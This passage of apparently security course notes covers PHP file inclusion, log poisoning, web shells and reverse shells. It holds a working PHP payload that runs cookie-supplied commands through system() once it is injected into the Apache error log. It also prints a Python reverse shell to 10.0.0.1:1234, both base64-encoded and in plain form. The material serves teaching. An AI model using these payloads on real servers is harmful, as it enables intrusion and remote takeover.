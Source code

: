 Note: the injected part is in green

## Server-side Include

In PHP, it is possible for us to access included files by modifying the URL

![php server side include](../imgs/03-2-9_php-server-side-include.png)

1. Brute force the location of the Apache HTTP error log
2. Poison `/var/log/httpd/error.log` with `<?php system(base64_decode($_COOKIE[‘asjdkfljhasfd’])); ?>`
3. ???
4. Why yes, my cookie is indeed

    ``` txt
    cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNv
    Y2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMC4wLjEiLDEy
    MzQpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTsgb3MuZHVw
    MihzLmZpbGVubygpLDIpO3A9c3VicHJvY2Vzcy5jYWxsKFsiL2Jpbi9zaCIsIi1pIl0pOycKCg==
    ```

    or should I say `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

Server-side include variants:

* `A:\`
* `http://`
* `gopher://` (and other non-HTTP)
* `\\blah` (UNC path)
* localhost (other local names)
* `::1` (ipv6)
* local web services?

### Web Shells

A **web shell** is a script that can be uploaded to a web server to enable remote control of the machine. Infected web servers can be either Internet-facing or internal to the network.

### Reverse Shells
